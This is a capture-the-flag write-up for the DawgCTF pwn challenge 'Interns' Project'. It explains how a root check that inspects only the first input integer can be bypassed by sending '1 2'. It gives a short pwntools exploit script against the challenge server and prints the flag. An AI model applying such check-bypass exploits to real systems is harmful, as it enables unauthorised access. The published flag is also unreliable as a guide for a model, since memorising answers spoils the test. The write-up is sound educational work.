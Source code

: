 https://ctftime.org/event/2651

# Interns' Project (pwn)

Our interns put together a little test program for us. It seems they all might have patched together their separate projects. Could you test it out for me?

nc connect.umbccd.net 20011

## Analysis

`printFlag` @ `0x13df`:

This function simply prints the flag and should be our goal.

`handleOption` @ `0x16cf`:

This code will parse up to 256 integers from `std::cin` and store them in `local_428`.

For example the line `1 2 3` will cause somethign like the following pseudocode to happen:

```c
local_428[0] = 1;
local_428[1] = 2;
local_428[2] = 3;
```

Supplying `2` results in a call to `printFlag` however before this call is made a check is done to see if our effective uid is equal to zero.

```C
if ((local_428[0] == 2) && (_Var2 = geteuid(), _Var2 != 0)) {
    bVar1 = true;
}
```

However we can see that only the first value in `local_428` is checked. This means that we can send a line that contains `2` but it just can't be the first number on the line.

## Solution

1) Send the line `1 2`
    - Which bypasses the check against `geteuid()` and then calls `printFlag`

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./task", checksec=False)
context.binary = elf
#context.terminal = ["ghostty", "-e"]

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("connect.umbccd.net", 20011)

p.sendline(b"1 2")

p.readuntil(b"DawgCTF{")
print("DawgCTF{" + p.readuntil(b"}").decode()) # DawgCTF{B@d_P3rm1ssi0ns}
```

## Flag
`DawgCTF{B@d_P3rm1ssi0ns}`

smiley 2025/04/19
